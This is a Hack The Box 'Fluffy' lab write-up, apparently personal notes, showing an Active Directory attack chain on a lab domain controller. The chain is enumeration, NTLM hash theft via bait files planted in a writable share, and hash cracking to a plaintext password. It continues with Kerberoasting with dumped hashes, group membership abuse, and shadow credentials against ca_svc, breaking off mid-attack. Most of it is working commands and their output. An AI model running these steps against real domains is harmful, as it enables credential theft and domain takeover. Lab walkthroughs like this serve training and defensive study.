


# Fluffy
## Starting credentials
```python
j.fleischman:J0elTHEM4n1990!
```

## Host file setup
```python
sudo nxc smb 10.129.232.88 --generate-hosts-file /etc/hosts                 
[sudo] password for kali: 
SMB         10.129.232.88   445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:None) (Null Auth:True)
```

## Enumeration
### Open ports
```python
nmap -p- --min-rate=2000 -sT 10.129.232.88                                 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-24 18:05 +0000
Nmap scan report for 10.129.232.88
Host is up (0.014s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49689/tcp open  unknown
49690/tcp open  unknown
49697/tcp open  unknown
49707/tcp open  unknown
49720/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 66.31 seconds
```

### Nmap
```python
nmap -p 53,88,139,389,445,464,593,636,3268,3269,5985,9389 -A --min-rate=2000 -sT dc01.fluffy.htb
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-24 18:07 +0000
Nmap scan report for dc01.fluffy.htb (10.129.232.88)
Host is up (0.015s latency).
rDNS record for 10.129.232.88: DC01.fluffy.htb

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-25 01:07:43Z)
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
|_ssl-date: 2026-03-25T01:09:10+00:00; +7h00m01s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-03-25T01:09:09+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-03-25T01:09:10+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-03-25T01:09:09+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf        .NET Message Framing
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```
DC is running at +7h

## SMB (445)
Null auth is enabled but cant access shares or list users

### Guest access
#### Shares
```python
nxc smb dc01.fluffy.htb -u 'Guest' -p '' --shares 
SMB         10.129.232.88   445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.232.88   445    DC01             [+] fluffy.htb\Guest: 
SMB         10.129.232.88   445    DC01             [*] Enumerated shares
SMB         10.129.232.88   445    DC01             Share           Permissions     Remark
SMB         10.129.232.88   445    DC01             -----           -----------     ------
SMB         10.129.232.88   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.232.88   445    DC01             C$                              Default share
SMB         10.129.232.88   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.232.88   445    DC01             IT                              
SMB         10.129.232.88   445    DC01             NETLOGON                        Logon server share 
SMB         10.129.232.88   445    DC01             SYSVOL                          Logon server share
```
Limited access on shares

#### Users
```python
nxc smb dc01.fluffy.htb -u 'Guest' -p '' --rid-brute             
SMB         10.129.232.88   445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.232.88   445    DC01             [+] fluffy.htb\Guest: 
SMB         10.129.232.88   445    DC01             498: FLUFFY\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.232.88   445    DC01             500: FLUFFY\Administrator (SidTypeUser)
SMB         10.129.232.88   445    DC01             501: FLUFFY\Guest (SidTypeUser)
SMB         10.129.232.88   445    DC01             502: FLUFFY\krbtgt (SidTypeUser)
SMB         10.129.232.88   445    DC01             512: FLUFFY\Domain Admins (SidTypeGroup)
SMB         10.129.232.88   445    DC01             513: FLUFFY\Domain Users (SidTypeGroup)
SMB         10.129.232.88   445    DC01             514: FLUFFY\Domain Guests (SidTypeGroup)
SMB         10.129.232.88   445    DC01             515: FLUFFY\Domain Computers (SidTypeGroup)
SMB         10.129.232.88   445    DC01             516: FLUFFY\Domain Controllers (SidTypeGroup)
SMB         10.129.232.88   445    DC01             517: FLUFFY\Cert Publishers (SidTypeAlias)
SMB         10.129.232.88   445    DC01             518: FLUFFY\Schema Admins (SidTypeGroup)
SMB         10.129.232.88   445    DC01             519: FLUFFY\Enterprise Admins (SidTypeGroup)
SMB         10.129.232.88   445    DC01             520: FLUFFY\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.232.88   445    DC01             521: FLUFFY\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.232.88   445    DC01             522: FLUFFY\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.232.88   445    DC01             525: FLUFFY\Protected Users (SidTypeGroup)
SMB         10.129.232.88   445    DC01             526: FLUFFY\Key Admins (SidTypeGroup)
SMB         10.129.232.88   445    DC01             527: FLUFFY\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.232.88   445    DC01             553: FLUFFY\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.232.88   445    DC01             571: FLUFFY\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.232.88   445    DC01             572: FLUFFY\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.232.88   445    DC01             1000: FLUFFY\DC01$ (SidTypeUser)
SMB         10.129.232.88   445    DC01             1101: FLUFFY\DnsAdmins (SidTypeAlias)
SMB         10.129.232.88   445    DC01             1102: FLUFFY\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.232.88   445    DC01             1103: FLUFFY\ca_svc (SidTypeUser)
SMB         10.129.232.88   445    DC01             1104: FLUFFY\ldap_svc (SidTypeUser)
SMB         10.129.232.88   445    DC01             1601: FLUFFY\p.agila (SidTypeUser)
SMB         10.129.232.88   445    DC01             1603: FLUFFY\winrm_svc (SidTypeUser)
SMB         10.129.232.88   445    DC01             1604: FLUFFY\Service Account Managers (SidTypeGroup)
SMB         10.129.232.88   445    DC01             1605: FLUFFY\j.coffey (SidTypeUser)
SMB         10.129.232.88   445    DC01             1606: FLUFFY\j.fleischman (SidTypeUser)
SMB         10.129.232.88   445    DC01             1607: FLUFFY\Service Accounts (SidTypeGroup)
```
Here is the list of users but since i have credentials i can use nxc `users-export` function to dump all the users to a file for me 

### Using provided creds
```python
j.fleischman:J0elTHEM4n1990!
```

#### Shares
```python
nxc smb dc01.fluffy.htb -u 'j.fleischman' -p 'J0elTHEM4n1990!' --shares
SMB         10.129.232.88   445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.232.88   445    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990! 
SMB         10.129.232.88   445    DC01             [*] Enumerated shares
SMB         10.129.232.88   445    DC01             Share           Permissions     Remark
SMB         10.129.232.88   445    DC01             -----           -----------     ------
SMB         10.129.232.88   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.232.88   445    DC01             C$                              Default share
SMB         10.129.232.88   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.232.88   445    DC01             IT              READ,WRITE      
SMB         10.129.232.88   445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.232.88   445    DC01             SYSVOL          READ            Logon server share
```
Write access on the `IT` share

#### Users
```python
nxc smb dc01.fluffy.htb -u 'j.fleischman' -p 'J0elTHEM4n1990!' --users-export users.txt
SMB         10.129.232.88   445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.232.88   445    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990! 
SMB         10.129.232.88   445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-
SMB         10.129.232.88   445    DC01             Administrator                 2025-04-17 15:45:01 0       Built-in account for administering the computer/domain
SMB         10.129.232.88   445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         10.129.232.88   445    DC01             krbtgt                        2025-04-17 16:00:02 0       Key Distribution Center Service Account
SMB         10.129.232.88   445    DC01             ca_svc                        2025-04-17 16:07:50 0        
SMB         10.129.232.88   445    DC01             ldap_svc                      2025-04-17 16:17:00 0        
SMB         10.129.232.88   445    DC01             p.agila                       2025-04-18 14:37:08 0        
SMB         10.129.232.88   445    DC01             winrm_svc                     2025-05-18 00:51:16 0        
SMB         10.129.232.88   445    DC01             j.coffey                      2025-04-19 12:09:55 0        
SMB         10.129.232.88   445    DC01             j.fleischman                  2025-05-16 14:46:55 0        
SMB         10.129.232.88   445    DC01             [*] Enumerated 9 local users: FLUFFY
SMB         10.129.232.88   445    DC01             [*] Writing 9 local users to users.txt
```
All users dumped to a user file

### `IT` share
```python
smbclient //dc01.fluffy.htb/IT -U 'j.fleischman'%'J0elTHEM4n1990!'                        
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Mar 25 01:14:15 2026
  ..                                  D        0  Wed Mar 25 01:14:15 2026
  Everything-1.4.1.1026.x64           D        0  Fri Apr 18 16:08:44 2025
  Everything-1.4.1.1026.x64.zip       A  1827464  Fri Apr 18 16:04:05 2025
  KeePass-2.58                        D        0  Fri Apr 18 16:08:38 2025
  KeePass-2.58.zip                    A  3225346  Fri Apr 18 16:03:17 2025
  Upgrade_Notice.pdf                  A   169963  Sat May 17 15:31:07 2025

		5842943 blocks of size 4096. 1533508 blocks available
smb: \>
```
Ive copied all this to my machine

Nothing really in any of these files there are details about CVEs that i could try 

## Watering hole attack
With write access to a share i can perform this

```python
sudo responder -I tun0
```
Ill start by setting a listener

```python
python3 ntlm_theft.py -g modern -s 10.10.14.90 -f meeting
/home/kali/htb/fluffy/ntlm_theft/ntlm_theft.py:168: SyntaxWarning: invalid escape sequence '\l'
  location.href = 'ms-word:ofe|u|\\''' + server + '''\leak\leak.docx';
Skipping SCF as it does not work on modern Windows
Created: meeting/meeting-(url).url (BROWSE TO FOLDER)
Created: meeting/meeting-(icon).url (BROWSE TO FOLDER)
Created: meeting/meeting.lnk (BROWSE TO FOLDER)
Created: meeting/meeting.rtf (OPEN)
Created: meeting/meeting-(stylesheet).xml (OPEN)
Created: meeting/meeting-(fulldocx).xml (OPEN)
Created: meeting/meeting.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: meeting/meeting-(handler).htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: meeting/meeting-(includepicture).docx (OPEN)
Created: meeting/meeting-(remotetemplate).docx (OPEN)
Created: meeting/meeting-(frameset).docx (OPEN)
Created: meeting/meeting-(externalcell).xlsx (OPEN)
Created: meeting/meeting.wax (OPEN)
Created: meeting/meeting.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: meeting/meeting.asx (OPEN)
Created: meeting/meeting.jnlp (OPEN)
Created: meeting/meeting.application (DOWNLOAD AND OPEN)
Created: meeting/meeting.pdf (OPEN AND ALLOW)
Skipping zoom as it does not work on the latest versions
Created: meeting/meeting.library-ms (BROWSE TO FOLDER)
Skipping Autorun.inf as it does not work on modern Windows
Skipping desktop.ini as it does not work on modern Windows
Created: meeting/meeting.theme (THEME TO INSTALL
Generation Complete.
```
Ill use a tool called `ntlm_theft` to craft the malicious files

```python
smbclient //dc01.fluffy.htb/IT -U 'j.fleischman'%'J0elTHEM4n1990!'
Try "help" to get a list of possible commands.
smb: \> put meetin*
meetin* does not exist
smb: \> mput meeting*
```
This planted the files in the share

```python
[SMB] NTLMv2-SSP Client   : 10.129.232.88
[SMB] NTLMv2-SSP Username : FLUFFY\p.agila
[SMB] NTLMv2-SSP Hash     : p.agila::FLUFFY:b3dbfd88351e1847:15407440A3EF41C7B58618569179C465:0101000000000000808D08C6BBBBDC018A226B164BA1EABE0000000002000800500041005300310001001E00570049004E002D0053004B0030004A00590041004800480049005600590004003400570049004E002D0053004B0030004A0059004100480048004900560059002E0050004100530031002E004C004F00430041004C000300140050004100530031002E004C004F00430041004C000500140050004100530031002E004C004F00430041004C0007000800808D08C6BBBBDC01060004000200000008003000300000000000000001000000002000008BBA22F24B2400441813D41965452FAC8097ADB8978201BB13248A4DB5B6C8840A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00390030000000000000000000
```
I now have a hash

### Cracking the hash
```python
hashcat p-agila.hash /usr/share/wordlists/rockyou.txt

P.AGILA::FLUFFY:b3dbfd88351e1847:15407440a3ef41c7b58618569179c465:0101000000000000808d08c6bbbbdc018a226b164ba1eabe0000000002000800500041005300310001001e00570049004e002d0053004b0030004a00590041004800480049005600590004003400570049004e002d0053004b0030004a0059004100480048004900560059002e0050004100530031002e004c004f00430041004c000300140050004100530031002e004c004f00430041004c000500140050004100530031002e004c004f00430041004c0007000800808d08c6bbbbdc01060004000200000008003000300000000000000001000000002000008bba22f24b2400441813d41965452fac8097adb8978201bb13248a4db5b6c8840a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00390030000000000000000000:prometheusx-303
```
The hash has been cracked

```python
p.agila:prometheusx-303
```

```python
nxc smb dc01.fluffy.htb -u 'p.agila' -p 'prometheusx-303'                   
SMB         10.129.232.88   445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.232.88   445    DC01             [+] fluffy.htb\p.agila:prometheusx-303
```
I have now compromise this user

## Kerberoasting
```python
faketime -f +7h nxc ldap dc01.fluffy.htb -u p.agila -p 'prometheusx-303' --kerberoasting kerb.hashes
LDAP        10.129.232.88   389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:None) (channel binding:Never)
LDAP        10.129.232.88   389    DC01             [+] fluffy.htb\p.agila:prometheusx-303 
LDAP        10.129.232.88   389    DC01             [*] Skipping disabled account: krbtgt
LDAP        10.129.232.88   389    DC01             [*] Total of records returned 3
LDAP        10.129.232.88   389    DC01             [*] sAMAccountName: ca_svc, memberOf: ['CN=Service Accounts,CN=Users,DC=fluffy,DC=htb', 'CN=Cert Publishers,CN=Users,DC=fluffy,DC=htb'], pwdLastSet: 2025-04-17 17:07:50.136701, lastLogon: 2025-05-21 23:21:15.969274
LDAP        10.129.232.88   389    DC01             $krb5tgs$23$*ca_svc$FLUFFY.HTB$fluffy.htb\ca_svc*$67fcbcd413a96f07b4d498bc4b3e63a4$729ddaec1ac974116a2bd0190e03730360a5d71e519be5a6d6e89430fd759ac32f9e6b3d6f68e04fda69113a5b602e02d72b3f708b79ecb984f0d2ee414924495d95d5adfa9a22ef06e3410237d3777d4636b1f48f2b91064df5604fb56bdd227e5284143b1126e1fb0c39d7a24e6e164fdad45a98d36fb24b03521604b700b21322139718453f6c5014d968088febdae97961ea8e264f953817197094f58f20ad62b2c78381cad722b1a086ac7c7a17820d5e8bd569f85c14eded8370b6b49e855533ab2e9408d6b1111ba55fed78a1dbce7c4d45a74851c6aeb39041cfb6e4309d673f506483fbff6e42df616c689cce72a3c7a60f80a6d90cd7850dde00ad1b600e92c17a6edc1a9ddf303155607bd0cd0bebb15465459562105667db569b2fb01dae1889a9b081f2a093915d978f8e66eae6da9aee1abc7dcff5b029117a7e0c8992f48a3e69f8657c89b7962ce000c9639385db517022a7c458079c6aa5f36c0e48c7cd5d68d18e1e296baebaaed25d1c06801aaf745a2ce0fd13fb42dc06941c5420d5f23ec18c55ff1b67712c91b52d50512da1a4dfa0d074953b8fd010491050d878423c0ad2a95afc0495c8dc977777485069df978a39b539a7df8d37a5f0d9707a65ab90a142dbbbeaff215ce52bc64fd4be94992b43254973dad85f5d4355705a4b3d4c0c93c061b43355075937f32996021cdb305d526bbfcf9432a1d2bca8babaa1cc4854519781ec33039308415ab3f4bfec6ee632a7dfda3b8e2f74955acd08cd4d1242d4c527bf04db5bb8d61a2e40e70da7fcd4c8daad69e3afb2bbeaa1e603860481fdc28e709fa77b0731d048df98e1d70a960e710c1a59ce77b8a987b3878a26b820c9aa7855d2f50a68074c3226c6b363587a3b4312f1ca4ec508c13559fee6ccfb6bb2130137deb6703ab8d3d6cd1048d30e3080e83678757f8253e7746c5d8cf151ead538c4b43d53f2a0eda44db13b7c970077a2f0c7856c16af188c9242bec6936695e6c911ebf39d2ef00de1a2dddfa78ce37972008b531ca9eb728a9f657faaf4ac44b9904eff5b0c9d96f073b94e38cec04b9875b2d9571bf95ec0e833042dedaa7c923569440866bbab279f80623e1d155a3cc7f5131784242738fae14e369d4123d929dbf485b1734e53fdcc1713944437b00adbdbdd7aec87b1ac0e6d54b861664a0ebe17508c079910c7228a1828d7d453b3d8835becff3cc1b032da320e0e5c207dbd05c7097178e7d278b8992ce5aab4a7d560a6efccfb72fb0199619fabe58a0102db9cb0d2eb27b515c00d9d96db701d978117639feba25bb3d552528261aea7c48f7681888f60f2e4568edfafa71691359a8d51a28b2dbc0a8c6cd1fc6ea6731ade6206fb519966c1c031860dac3c6bc2a755d47f9daf0bec5f076c7d80047f21fec36694930e283308c8baf6c862f7d114657ace07c1c036a7bea3ba77e82e7012eb4f63eb3c22611026d7df333a32
LDAP        10.129.232.88   389    DC01             [*] sAMAccountName: ldap_svc, memberOf: CN=Service Accounts,CN=Users,DC=fluffy,DC=htb, pwdLastSet: 2025-04-17 17:17:00.599545, lastLogon: <never>
LDAP        10.129.232.88   389    DC01             $krb5tgs$23$*ldap_svc$FLUFFY.HTB$fluffy.htb\ldap_svc*$45c17bdf591b968fac7449b314c65c03$0c071250e2c6a3d9ca179fc321bf31d9cbd3ce7da38cc626cbcb6b80aa43ffa52af373be76a1cb4b6ec164a0c7b114aff064696e6cf91852f132f8474d8c01e4a96a980b6b758ce0f6ca5966c6023eac3ee060d3605ef6e685a637c24407308b3def9cca9dcd2d5e51b4443bb5a4dec1d1bff1da5248d0c4a6d29216b352db1e2085bb3ae5814dd59545053791fd1e6cc8d42cdd45df2ca5309df835e805fbf0184a45e89900ed58906495de244c26eb8946e2eff11815c658adf15d0f9438840c1910968dc17b2fdad29e829e93a17d43c157c4c787bc0c98cf80e9f9acf316802b18a11f1772ac130f6183a1370129a0ef254ee4b847d5df45123429cbf6430181ba4b48b797240866f3c7b416209cabe085711b8af0ee9ad2456f52c8de63845f2f5632e04d49b9dd5a4558c77b04281664ca780e12c2aebbfb069b881485bb251ee12e7b77fda2e535db6295e495ae3aae3fe1a0aef700fbdb558fe42679994b45abe28419ab63351b050428975579ae07fba267ac9331a86ed9ac851b1d1c3efe740b12f579d1e78a04b1849af2a874dc72f969576e9d34fc973e84e7ff43bffd1ef146b7e46fba14a9d329822ed083d77fba2bc96f8ee3ca8e992b107dff6c5ad45954fa698bff98c3a6d4a90323bc207610b0835daec7eb46c52fa4d1c818814dced0820c244a5726ac6bd2891067cf513c4f0c6eb2ab93b11f6c15a8bc2712d0910d25b9141979b6ce30bf9778e7315e53d2403c2bd90b33579594b0306bfc43d505d14b37db08f6276c4fd7b4af24a4b90a430017af7c8d54cbe474279ee52671b845ef4a6cb2927cbb45867adf9d20d4e1d8f37616ece77fd6740a3f91aade4f4902d30198356fe0ee235118262eab7df1f42d3aad7cd11f676768d8797e452cff060659cf974412dc6ff349d16c8d4e787e046bd3e9770d88cc0ce73ca08afc317b8f8d3af9a6af49f4eb3d47e953f15fda9c12854f98717f0969efe30300c9c0057d157a296039e8c65c2006911430fbf92ca7022d6baaba1c6b49ad2a45c7a987a15bfd344ad9136cec9f3a4857a6e4da7d41d4919740f2af1aaf09f53a249adbaac6b1ac958581025098bf62f57c4024754d441d9bd82cf4950903d1cd56440f6c0445127f642fc624ba9cae2f49f280a961b29e86cea76a61f258faaeb1865ffd7c6287217693da37de536c1f18d40bd152f53dace22df030050c9fb743707239bc4d262ba60569afd4a8d318ad7edfc23ad4c044a1fbe9511822a42744755dd2023a5fa562b22134f154f083fd1469dcd641b98abb161c110144e70466097e830f8d2679a5de6b08dbe558cb931d77fcbcd37b22038134634ad30c2da8bd11c75665d245c9b6a5424984151bad8e63822e92f1c4081a1ad1beeef61a15517405dfb9b94fd485a532c3cae4e710f75b08f2f86037278fe8d1b7639fdd3415dfec12d54017235c1975e00d2df1434226d22d0e9d2eaf5db1e2e593
LDAP        10.129.232.88   389    DC01             [*] sAMAccountName: winrm_svc, memberOf: ['CN=Service Accounts,CN=Users,DC=fluffy,DC=htb', 'CN=Remote Management Users,CN=Builtin,DC=fluffy,DC=htb'], pwdLastSet: 2025-05-18 01:51:16.786913, lastLogon: 2025-05-19 16:13:22.188468
LDAP        10.129.232.88   389    DC01             $krb5tgs$23$*winrm_svc$FLUFFY.HTB$fluffy.htb\winrm_svc*$2f0f061aabeaf03f5c447140eb252804$941f7b787309b57acbf73e498367f11edfb20ce60c5906abefd754e5ad0b24d818b9bad14b6306680aab65f733c67a0187e6e37acf4594ef62438d566bde058f1e9c720720683670ea08257180c3aca5605e073525f63623e5a57748c8f28ab724fe214c3c208ee3c83cde04396495c679a0b6354c4e5edf08af62586a2ab5eeeecde057ff4d4e976bacce2b7eacf809be54f92cdd23a18cad5c9de957471f60d19c33f7417974623ed502899c227f406235b81373dc6cfe944d681ba897d2e521758c718b5f4fb4273a72cae9dd729cf303eb05cbc8ddbcb1970ea232690f593fc4a946216af81f3eba27352defa9e832ac45af1bf61926e72c2e9017bb6dbc4513ce5e32778bd990544901043214d141312cc3d50c8fc28596e6bbc1c4d3bcbfb20917d87da36fecbb9c74431c38db27c62417181293fe8214cda2e66c267939b381d55d8d2b81811983b5eeaec9005ccb4a9db88464cc7ad95743811d9de9c6d63070c729449d3a4de412292437966be2d1a676b81fd33051ad0be9f5a35259072c843a6eb97197039b4bed872b2d8734b85105e43a7c9441a578e3337067179de73762529ba3eb2ee617474616bd8bdc93f6ede02f3b2665163ff12bd5d92f08bb0bb2ae798670dd80e7237ced583dd91e255dd48398a0bd271c0d26fc02f8a58aa6fec57fe034631ccf639dd6e882dac5a9f533bc85031be217dc67c553c5b76adb670cfa68e186bbbada813ae1e7311e88e1479e258c6c209f68ce7f63396f34603432b14b9b247699cd0674d34e52421e6fa6a986626a81016f4c55774d40e2bd12d378959eec80e5a787a0519d44ed062171674dc8d21be37196ebc946e08bccc6a03cf2bf3721f063783f4dacc82ff72797d916f0598be930ff2bf742de860e42c43059a19b727264f9e649dd9b72e07299abad6606b22acb5bceacddd1c8de623516fdb1a449181180d181caa71beddeceac43a10ecf852fc451524c3ba928069497db1a6f3c508ddca281415e9d517c43fd4b7dd22bec1f8fe98f3f64413dcb234467232b9dd85129ccd4bf65615b3f4fd0a0c443495a8f42226d668ccf7e8a398f00c0f509c1eba2328745d340eb0f73a31ddfd2cf2855451ce296332321e1467a9ac9c92e5477e9da0fb76d413e8f57207b8381bed26d5c44113eb87cc88f1a72d1b10adc792a5dbb10f21e57c9fd7d28453e120030595159996462502c2b15b8daba85d7189cfaa70979a085070ff3850e79b812cc17adfd453df0a257db4ec0edd84abd37047ff2b73346fc49c11c0908306e1235b664bb60a81f1e4173bffc8f881e25c5b0b559b00169c74ff4923965dcc544ba6dec748b0706be08dc0587ec571fe79a09c9bf1520109db7b2e958f2f65a2d90131bcff06bfe4b8a675ad4c552d8642f3a9c403a3a694c39fe57321bedc508db26da888f25a5c9a4755ee3200f0de00f576fb6523228758a77f25ce0dd1544432957559fd1ca
```
Found 3 hashes from kerberoasting

None of these hashes cracked however

## Bloodhound

So i have GenericAll over the service accounts group

### Adding `p.agila` to service accounts group
```python
net rpc group addmem "service accounts" "p.agila" -U "fluffy.htb"/"p.agila"%'prometheusx-303' -S "dc01.fluffy.htb"
```


Now im part of the group i have genericWrite over three service accounts

Since i already tried cracking the kerberos hashes of these users earlier and failed the only option here is to apply shadow credentials

## Compromising `ca_svc`
```python
faketime -f +7h certipy-ad shadow auto -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -account 'ca_svc' -dc-host dc01.fluffy.htb -debug
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[+] Nameserver: None
[+] DC IP: None
[+] DC Host: 'dc01.fluffy.htb'
[+] Target IP: None
[+] Remote Name: 'dc01.fluffy.htb'
[+] Domain: 'FLUFFY.HTB'
[+] Username: 'P.AGILA'
[+] Trying to resolve 'dc01.fluffy.htb' at '192.168.1.253'
[!] DNS resolution failed: The DNS query name does not exist: dc01.fluffy.htb.
Traceback (most recent call last):
  File "/usr/lib/python3/dist-packages/certipy/lib/target.py", line 442, in resolve
    answers = self.resolver.resolve(hostname, tcp=self.use_tcp)
  File "/usr/lib/python3/dist-packages/dns/resolver.py", line 1306, in resolve
    (request, answer) = resolution.next_request()
                        ~~~~~~~~~~~~~~~~~~~~~~~^^
  File "/usr/lib/python3/dist-packages/dns/resolver.py", line 750, in next_request
    raise NXDOMAIN(qnames=self.qnames_to_try, responses=self.nxdomain_responses)
dns.resolver.NXDOMAIN: The DNS query name does not exist: dc01.fluffy.htb.
[+] Resolved 'dc01.fluffy.htb' from cache: 10.129.232.88
[+] Authenticating to LDAP server using NTLM authentication
[+] Using NTLM signing: False (LDAP signing: True, SSL: True)
[+] Using channel binding signing: True (LDAP channel binding: True, SSL: True)
[+] Using LDAP channel binding for NTLM authentication
[+] LDAP NTLM authentication successful
[+] Bound to ldaps://10.129.232.88:636 - ssl
[+] Default path: DC=fluffy,DC=htb
[+] Configuration path: CN=Configuration,DC=fluffy,DC=htb
[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '00d351b27a6248959e069a5582fe9b15'
[*] Adding Key Credential with device ID '00d351b27a6248959e069a5582fe9b15' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID '00d351b27a6248959e069a5582fe9b15' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'ca_svc@fluffy.htb'
